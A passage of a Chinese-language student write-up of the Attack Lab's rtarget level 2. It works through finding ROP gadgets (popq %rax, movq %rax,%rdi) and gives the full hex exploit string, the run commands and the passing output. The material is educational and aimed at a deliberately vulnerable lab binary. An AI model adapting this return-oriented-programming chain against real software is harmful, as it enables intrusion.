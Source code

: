 运行

```bash
./hex2raw < p4.txt > p4a.txt
./rtarget -i p4a.txt
```

~~大功告成！~~

```text
Cookie: 0x11a67610
Touch2!: You called touch2(0x11a67610)
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

告不了一点，发现得到的是 0.0 的分数，说明越界的 gadget 在远程服务器上无法得分，于是询问大佬，发现之前的过程中忘了可以插入 `0x90` 作为 nop，于是再次以正则表达式检索：

```text
5[89a-f] (90 )+c3
```

成功找到一个新地址 `0x4021bc`，可以实现 `popq %rax`

```text
00000000004021b4 <addval_168>:
f3 0f 1e fa 8d 87 0d 92 58 90 c3
```

同时，我们还需要 `movq %rax %rdi` 或者 `movl %eax %edi`，查表对应 `48 89 c7`，检查得到第二个地址：`0x4021a4`

```text
000000000040219e <setval_337>:
f3 0f 1e fa c7 07 48 89 c7 c3 c3
```

修改 `p4.txt` 如下：

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
bc 21 40 00 00 00 00 00
10 76 a6 11 00 00 00 00
a4 21 40 00 00 00 00 00
a8 1e 40 00 00 00 00 00
```

运行

```bash
./hex2raw < p4.txt > p4a.txt
./rtarget -i p4a.txt
```

这下终于大功告成了！

## Phase5
